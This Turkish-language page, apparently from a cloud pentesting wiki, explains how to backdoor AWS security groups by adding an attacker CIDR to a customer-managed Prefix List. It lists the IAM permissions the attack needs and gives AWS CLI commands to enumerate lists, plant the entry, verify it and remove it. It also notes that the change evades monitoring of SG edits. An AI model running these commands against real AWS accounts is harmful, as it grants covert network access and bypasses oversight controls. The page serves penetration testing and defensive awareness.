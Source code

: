 # AWS - Security Group Backdoor via Managed Prefix Lists

{{#include ../../../../banners/hacktricks-training.md}}

## Özet
Müşteri tarafından yönetilen Prefix Lists'i kötüye kullanarak gizli bir erişim yolu oluşturun. Eğer bir security group (SG) kuralı bir managed Prefix List'i referans veriyorsa, o listeyi değiştirebilme yetkisine sahip herhangi biri saldırgan-kontrollü CIDR'leri sessizce ekleyebilir. Listeyi referans veren her SG (ve potansiyel olarak Network ACL veya VPC endpoint) yeni aralıklara, SG'de görünür bir değişiklik olmadan hemen izin verir.

## Etki
- Prefix list'i referans veren tüm SG'ler için izin verilen IP aralıklarının anında genişletilmesi; yalnızca SG düzenlemelerini izleyen değişiklik kontrollerinin atlatılması.
- Kalıcı ingress/egress backdoors sağlar: kötü amaçlı CIDR'i prefix list içinde gizli tutarken SG kuralı değişmemiş gibi görünür.

## Gereksinimler
- IAM izinleri:
- `ec2:DescribeManagedPrefixLists`
- `ec2:GetManagedPrefixListEntries`
- `ec2:ModifyManagedPrefixList`
- `ec2:DescribeSecurityGroups` / `ec2:DescribeSecurityGroupRules` (ekli SG'leri tanımlamak için)
- Opsiyonel: `ec2:CreateManagedPrefixList` (test için yenisini oluşturuyorsanız).
- Ortam: Hedef customer-managed Prefix List'i referans veren en az bir SG kuralı.

## Değişkenler
```bash
REGION=us-east-1
PREFIX_LIST_ID=<pl-xxxxxxxx>
ENTRY_CIDR=<attacker-cidr/32>
DESCRIPTION="Backdoor – allow attacker"
```
## Saldırı Adımları

1) **Enumerate candidate prefix lists and consumers**
```bash
aws ec2 describe-managed-prefix-lists \
--region "$REGION" \
--query 'PrefixLists[?OwnerId==`<victim-account-id>`].[PrefixListId,PrefixListName,State,MaxEntries]' \
--output table

aws ec2 get-managed-prefix-list-entries \
--prefix-list-id "$PREFIX_LIST_ID" \
--region "$REGION" \
--query 'Entries[*].[Cidr,Description]'
```
`aws ec2 describe-security-group-rules --filters Name=referenced-prefix-list-id,Values=$PREFIX_LIST_ID` kullanarak listeye bağlı hangi SG kurallarının olduğunu doğrulayın.

2) **attacker CIDR'yi prefix list'e ekleyin**
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--add-entries Cidr="$ENTRY_CIDR",Description="$DESCRIPTION" \
--region "$REGION"
```
3) **Güvenlik gruplarına yayılımı doğrulayın**
```bash
aws ec2 describe-security-group-rules \
--region "$REGION" \
--filters Name=referenced-prefix-list-id,Values="$PREFIX_LIST_ID" \
--query 'SecurityGroupRules[*].{SG:GroupId,Description:Description}' \
--output table
```
`$ENTRY_CIDR`'den gelen trafik artık prefix list'in referans verildiği her yerde izinli (genellikle egress proxy'lerdeki outbound kuralları veya paylaşılan servislerdeki inbound kuralları).

## Kanıtlar
- `get-managed-prefix-list-entries` saldırgan CIDR'sini ve açıklamayı yansıtır.
- `describe-security-group-rules` hala prefix list'e referans veren orijinal SG kuralını gösterir (hiçbir SG değişikliği kaydedilmemiş), fakat yeni CIDR'den gelen trafik başarılı olur.

## Temizlik
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--remove-entries Cidr="$ENTRY_CIDR" \
--region "$REGION"
```
{{#include ../../../../banners/hacktricks-training.md}}
